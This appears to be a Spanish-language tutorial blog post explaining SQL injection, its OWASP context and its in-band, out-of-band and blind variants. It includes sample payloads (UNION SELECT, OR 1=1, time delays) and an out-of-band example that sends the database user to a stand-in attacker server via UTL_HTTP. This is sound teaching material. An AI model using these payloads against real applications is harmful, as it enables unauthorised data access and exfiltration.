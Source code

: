 ```yaml
---
layout: single
title: ¿Qué es Inyección de SQL?
excerpt: "Inyección de SQL es una vulnerabilidad de una aplicación web que permite al atacante introducir instrucciones SQL dentro del código SQL programado para la manipulación de la base de datos."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/que-es-inyeccion-sql\Ilustracion_Inyeccion_SQL.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - SQL Injection
tags:
  - SQL Injection
---
```

<p align="center">
  <img width="500" src="../assets/images/que-es-inyeccion-sql\Ilustracion_Inyeccion_SQL.png">
</p>

***Inyección de SQL*** es una vulnerabilidad de una aplicación web que permite al atacante introducir instrucciones SQL dentro del código SQL programado para la manipulación de la base de datos.

Un ataque de inyección SQL exitoso puede:
- Leer datos sensibles de una base de datos.
- Modificar información de la base de datos con consultas INSERT/UPDATE/DELETE. 
- Ejecutar operaciones administrativas en la base de datos (como apagarla).
- Extraer contenido de los archivos que existen en el sistema de archivos de la base de datos.
- Escribir archivos en el sistema de archivos.
- Emitir otro tipo de comandos al sistema operativo.

## Los 10 principales riesgos de seguridad de las aplicaciones web:
<p align="center">
  <img src="../assets/images/que-es-inyeccion-sql\Top_ten_OWASP.png">
</p> 

*Fuente: https://owasp.org/www-project-top-ten/*

## Las principales categorías de las inyecciones SQL son:
- In-band
- Out-of-band
- Inferential (Blind)

## 1. In-band (Inyecciones SQL clásicas):  
Los atacantes pueden lanzar el ataque y obtener los resultados por el mismo canal de comunicación.

**Técnicas populares:**

- **Error-based Injections:** Podemos obtener información de la base de datos, su estructura y su información a partir de mensajes de error. *Ejemplo: Poner comillas simples o dobles en un campo de búsqueda.* Además, conociendo el gestor de bases de datos podemos darnos cuenta que tabla contiene información importante de la base de datos (tabla con metadatos de la base de datos):

![](/assets/images/que-es-inyeccion-sql\Tablas_metadatos_gestores_bd.png)

- **Union-based Injections:** Combina los resultados de una consulta legítima con los resultados de la consulta que un atacante realizó. 

*Ejemplo:*
```sql
SELECT Email,RegistrationDate FROM Users WHERE ID='159' UNION SELECT 
ProductName,ProductDescription FROM Products;
```

## 2. Out-of-band:  
Similar a la anterior pero se usan diferentes canales para la extracción de la información producto del ataque (HTTP, DNS). *Por ejemplo, hacer una conexión HTTP con otro servidor web para enviar los resultados del ataque.*

![](/assets/images/que-es-inyeccion-sql\ilustracion_out_of_band.png)

Requerimientos:
- Tener una aplicación web y base de datos vulnerable.
- Ganar suficientes privilegios para iniciar una petición.

<!-- &emsp; para 4 espacios -->

*Ejemplo:*
```sql
SELECT * FROM Products WHERE id='346'||UTL_HTTP.request('http://attacker
-server-url.com/'||(SELECT user FROM DUAL)) --
```

## 3. Inferential or Blind:  
A menudo es usado para generar retrasos en la base de datos ( sleep(10) ) o condiciones booleanas (1=1).  

*Ejemplo:*

Condición booleana:
```sql
SELECT * FROM Products WHERE ID='346' OR 1=1;
```

Un retraso en SQL Server:  
```sql
SELECT * FROM Products WHERE ID='346' waitfor delay '00:00:10';
```

O un retraso en MySQL:
```sql
SELECT * FROM Products WHERE ID='346' - SLEEP(10);
```

## Materiales de referencia para Inyección SQL: 

[https://slides.com/christophe-cybr/sql-explained](https://slides.com/christophe-cybr/sql-explained)